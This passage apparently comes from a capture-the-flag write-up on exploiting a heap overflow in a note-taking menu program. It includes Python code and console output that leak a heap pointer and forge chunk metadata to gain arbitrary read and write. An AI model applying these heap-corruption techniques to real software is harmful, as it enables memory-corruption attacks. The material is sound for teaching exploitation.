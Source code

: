 ![after](./Images/after.png)

(The first note is at `0x55c9871e02a0`, the second at `0x55c9871e02e0`)

First, we can use this to get a heap leak by filling up the space bewteen the two notes, and then viewing the first note :

```python
add_entry(b"1", b"8", b"A"*8)
add_entry(b"2", b"8", b"B"*8)
remove(b"1")
add_entry_error(b"1", b"10000")

edit_entry(b"1", b"C"*49)
```

```console
=== Menu ===
1. Add
2. Edit
3. Remove
4. View
0. Exit
> 4
idx: 1
data: CCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC\xa3a\xe8)V
=== Menu ===
1. Add
2. Edit
3. Remove
4. View
0. Exit
> 
```

As you can see at the end of the first note's data : a pointer to the heap !

And now by overwriting the second note's pointer and viewing it's data we get an arbitrary read. By editing it's data we get an arbitrary write :

```python
# Overwriting second chunk's pointer
def overwrite_ptr(address:bytes):
    # Writing a clean heap not to sigsegv
    payload = b"".join([
        b"C"*16,
        p64(0),
        p64(0x21),
        p64(0x2),
        p64(0xffff), # Size set to 0xfff to write more bytes
        address,
    ])
    edit_entry(b"1", payload)

def read(address:bytes):
    overwrite_ptr(address)
    leak = view(b"2")
    return leak
```